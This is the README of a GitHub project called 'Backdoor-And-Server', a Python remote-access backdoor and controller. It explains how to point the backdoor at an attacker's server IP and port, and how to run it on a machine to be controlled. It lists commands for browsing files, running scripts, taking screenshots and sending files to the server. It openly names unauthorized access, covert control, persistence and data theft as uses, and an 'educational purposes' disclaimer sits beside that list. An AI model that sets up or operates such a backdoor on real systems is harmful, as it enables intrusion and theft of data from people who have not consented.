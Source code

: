 # Backdoor-And-Server 💻🔗

- Welcome to the Backdoor-And-Server project, a powerful yet educational server-client Python application that enables you to remotely execute commands from the server on the backdoor. 

## Warning 🚨
**Please note that this project is intended for educational and research purposes only. Use it responsibly and only on devices and systems for which you have explicit authorization. The author of this project is not responsible for any misuse or illegal activities involving this software.**

## Table of Contents

1. [Installation Process](#installation-process-) 📥
2. [Requirements](#requirements-%EF%B8%8F) 🛠️
3. [Pre-Execution Setup](#pre-execution-%EF%B8%8F) ⏮️
4. [Execution](#execution-%EF%B8%8F) 🏃‍♂️
5. [Available Commands](#available-commands-) 💻
6. [Potential Uses](#potential-uses-) 💡

## Installation Process 📥

- Let's get you started with Backdoor-And-Server. First, clone the repository and navigate to the `Backdoor-And-Server` directory:

```bash
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

## Requirements 🛠️

Next, install the requirements using pip3 with the following instructions:

For **Server.py**
```
$ pip3 install tqdm
```
For **Backdoor.py**
```
$ pip3 install pyautogui 
```

## Pre Execution ⏮️

- On line number **137** of **server.py** file
```
137. sock.bind(('xx.xxx.xx.xx',xxxx)) #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```
- On line number **153** of **backdoor.py** file
```
153. s.connect(('xx.xxx.xx.xx',xxxx))  #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```

## Execution 🏃‍♂️

- Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
- Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
- This will establish a connection with the server, and you can start sending commands to be executed on the backdoor.🛜

## Available Commands 💡

- Here's a table of the commands you can run on the backdoor from the server:

| Command                | Description                                                     |
|------------------------|-----------------------------------------------------------------|
| `ls`                   | List the files and directories in the current directory.        |
| `cd <foldername>`      | Change the current directory to the specified folder.           |
| `cd ..`                | Navigate to the parent directory.                               |
| `pwd`                  | Print the current working directory.                            |
| `cat <filename>`       | Display the contents of a text file.                            |
| `python <filename>`    | Execute a Python 1.x script with the specified filename.        |
| `python3 <filename>`   | Execute a Python 3.x script with the specified filename.        |
| `copy <filename>`      | Copy a file from the client to the server.                      |
| `bye`                  | Disconnect from the server.                                     |
| `scrst`                | Command description not provided.                               |
| `send <filename>`      | Send a file to the server.                                      |
| `help`                 | Display a list of available commands.                           |
|`lsl`                   | List the local files and directories in the current directory.  |
|`pwdl`                  | Print the local current working directory.                      |
|`cdl <filename>`        | Change the local current directory to the specified folder.     |


## Potential Uses 🌟

- Backdoor and server can be used for:

-Unauthorized Access: Malicious actors use backdoors to gain unauthorized access to a computer system, network, or device. This unauthorized access can lead to data theft, surveillance, or further exploitation.

-Remote Control: Backdoors provide remote control over a compromised system. Attackers can manipulate the victim's computer, executing commands and actions without the user's knowledge or consent.

-Persistence: Backdoors are often used to maintain a persistent presence within a compromised network or system. This allows attackers to maintain access even if initial security flaws are patched.

-Data Theft: Backdoors enable the exfiltration of sensitive data, such as personal information, financial records, or intellectual property, which can then be misused or sold.

